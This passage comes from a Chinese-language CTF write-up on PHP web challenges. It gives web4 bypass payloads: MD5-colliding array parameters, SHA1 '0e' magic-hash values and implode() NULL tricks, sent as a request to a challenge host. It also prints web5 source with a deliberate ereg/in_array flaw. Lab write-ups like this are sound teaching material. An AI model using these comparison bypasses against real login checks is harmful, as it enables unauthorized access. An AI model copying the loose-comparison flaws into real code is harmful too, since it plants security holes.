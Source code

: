    2. 数组绕过：
      类似sha1()，通过传入两个不相等的数组，使得 md5加密失败返回空，最终 null=null
      不过这里用implode()会先把数组元素拼接成字符串再进行md5加密，这个方法也就失效了

最终payload：

```
username[]=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&password[]=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

![](https://i.loli.net/2021/09/21/m72n3ra91qpiBOI.png)



### 补充一个解法

```
http://8.130.27.133/web4/?username=aaroZmOk&password=aaK1STfY
```


![](https://i.loli.net/2021/10/05/SiwAjlp42IftOyK.png)

> 这里得感谢陈姐，提出了这个非预期；感谢冰姐，让我重新深入了解一下这个原理

这两个值是sha1后为0exxx的值，也就成功绕过第一个if语句了

重点在第二个md5比较
能过不是因为md5值相等，是因为implode的要求参数为数组，传入非数组则会警告并返回NULL，两边为NULL也就过了~

(通常`$_GET`和`$_POST`传入的值为字符串，像?username[]=xxx&password=xxx这样才是数组的传入形式)

![](https://i.loli.net/2021/10/05/bzKosxVQhmYOyBX.png)



## web5

http://8.130.27.133/web5/

直接给源码：

```php
<?php
$white_list = range(1,9);
require_once('flag.php');
if(isset($_REQUEST['no'])){
    $a=$_REQUEST['no'];
    if(@ereg("^[1-9]+$", $a) === FALSE){
        echo 'must be number and not zore';
    }else{
        if(in_array($a,$white_list)){
            if(strlen($a)>1){
                echo 'you are a great dark phper<br>';
                echo $flag;
            }else{
                echo 'you no dark';
            }
        }else{
            echo 'you are so dark';
        }
    }    
}else
    highlight_file(__FILE__);

```